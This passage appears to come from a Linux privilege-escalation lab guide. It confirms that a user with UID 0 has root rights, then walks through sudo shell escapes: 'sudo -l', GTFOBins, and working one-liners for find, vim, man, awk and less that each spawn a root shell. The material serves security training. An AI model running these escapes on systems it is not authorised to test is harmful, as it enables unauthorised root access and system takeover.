 **Explanation:**  
The output confirms that the `newroot` user has UID 0, meaning it has root privileges, allowing full control over the system.

**Answer:**  
The `id` command shows that the `newroot` user has root privileges (`uid=0(root)`).

---

## Sudo - Shell Escape Sequences

### Step 1: List Sudo-Allowed Programs

List the programs that your user can run with `sudo` without a password:

```bash
sudo -l
```

**Explanation:**  
This command lists the programs you are allowed to run with `sudo`. Some of these programs can be exploited to gain a root shell if they are improperly configured.

### Step 2: Use GTFOBins for Privilege Escalation

Visit [GTFOBins](https://gtfobins.github.io) and search for some of the programs listed. If the program is listed with "sudo" as a function, it can often be used to gain elevated privileges via a shell escape sequence.

**Example Commands:**

- **find**:
  ```bash
  sudo find . -exec /bin/sh \; -quit
  ```

- **vim**:
  ```bash
  sudo vim -c ':!/bin/bash'
  ```

- **man**:
  ```bash
  sudo man man
  !/bin/bash
  ```

- **awk**:
  ```bash
  sudo awk 'BEGIN {system("/bin/bash")}'
  ```

- **less**:
  ```bash
  sudo less /etc/profile
  !/bin/sh
  ```
